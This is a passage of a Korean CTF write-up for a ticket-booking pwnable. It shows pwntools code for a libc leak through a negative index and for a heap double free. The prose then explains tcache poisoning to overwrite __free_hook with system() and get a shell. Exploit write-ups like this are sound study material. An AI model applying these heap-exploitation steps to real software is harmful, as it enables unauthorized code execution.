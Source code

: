 ### libc leak

`view_ticket()`의 `index`에 -4를 넣어서 `stderr`을 leak한다.

```python
# libc leak
view(-4)
r.recvuntil("|name |")
libc = u64(r.recvline()[-9:-3].ljust(8, b"\x00")) - 0x1ec643 # libc base
log.info("libc base: " + hex(libc))
```

![image](https://user-images.githubusercontent.com/59759771/90601708-9210b780-e233-11ea-97d4-2ecd33772252.png)

<br>

### double free

다음의 순서대로 진행한다.

1. one ride ticket 구매(index: 0) - `lastname`에 개행 없이 8글자를 입력하여 `ticket_type`을 0으로 조작
2. one day ticket 구매(index: 1)
3. 2에서 구매한 티켓 모두 사용 / 청크 해제
4. 1에서 구매한 티켓에서 `meal_ticket`을 `0x20`번 사용하여 해제된 청크의 사이즈를 `0x20`으로 조작
5. double free

```python
# double free
buy(1, "AAAAAAAA", "BBBBBBBB") # index: 0
buy(2, "A", "B") # index: 1

use_oneday(1, 1)
use_oneday(1, 1)
use_oneday(1, 1)
use_oneday(1, 2)
use_oneday(1, 3)

for i in range(0x20):
    use_oneday(0, 1)
use_oneday(1, 1)
```

![image](https://user-images.githubusercontent.com/59759771/90604128-57a91980-e237-11ea-9720-648dc450f1c1.png)

<br>

### get shell

free hook을 `system()`의 주소로 덮고, `"/bin/sh"`가 저장된 청크를 free시키면 쉘을 획득할 수 있다. double free된 청크들 중에서 `0x40`바이트 청크를 먼저 할당받아서 `firstname`에 free hook의 주소를 쓰고 `0x20`바이트 청크를 두 번 더 할당받으면 free hook이 fake chunk로 반환될 것이다. 

이때 주의할 점이, 청크의 fd를 조작한다고 하더라도 티캐시에 청크가 들어 있지 않으면 티캐시에서 청크를 반환하지 않는다는 점이다. `tcache_entry[0](1)`에서 괄호 안의 1이 티캐시에 들어 있는 청크의 개수를 뜻하는데, double free된 청크가 반환되고 나면 0이 되어 그 다음부터는 무조건 청크를 새로 할당하게 된다. 이런 문제를 방지하려면 간단하게 먼저 청크 하나를 티캐시에 넣어 놓고 나서 double free시키면 된다.
